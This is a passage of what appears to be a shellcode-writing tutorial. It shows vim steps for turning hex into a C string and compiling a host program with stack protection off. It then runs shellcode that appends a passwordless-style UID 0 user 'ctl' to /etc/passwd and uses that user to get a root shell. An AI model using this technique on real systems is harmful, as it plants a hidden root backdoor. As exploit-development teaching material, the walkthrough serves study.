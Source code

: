   - Delete unneeded lines `dd` 
  - `:%s/ *$//g` 
    - Delete extra space characters at the end of the lines. 
  - `:se nu`     
    - See the line numbers
  - `gg`         
    - go to the first character of the first line
  - `i`+`<space>`
    - Put a space before the first hex character
  - `48 J`       
    - Join all 48 lines together
  - `%s/ /\\x/g` 
    - Replace all spaces with the C hex indicator

### Add the Shellcode to Host Program
![](/assets/images/shellcode-c.png)

#### Compiling Host Program
```console
root# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```

### Testing the Injected Shellcode
```console
root# tail -n 1 /etc/passwd
user:x:1000:1000:user,,,:/home/user:/bin/bash
root# ./shellcode
Shellcode Length:  107
root# tail -n 1 /etc/passwd
ctl:NNwZ8D1QjVy3Y:0:0::/:/bin//sh
```
+ Here we see that our user line has successfully been appended to the /etc/passwd file.

### Testing our new UID 0 User
```console
root# su user
user$ su ctl
Password: ctl
# id
uid=0(root) gid=0(root) groups=0(root)
#
```
+ Great Success!
+ We changed to a lower level user because changing to a user as root does not require any authentication.
+ Our username ctl does not show since the root user is mapped to UID + GID 0.
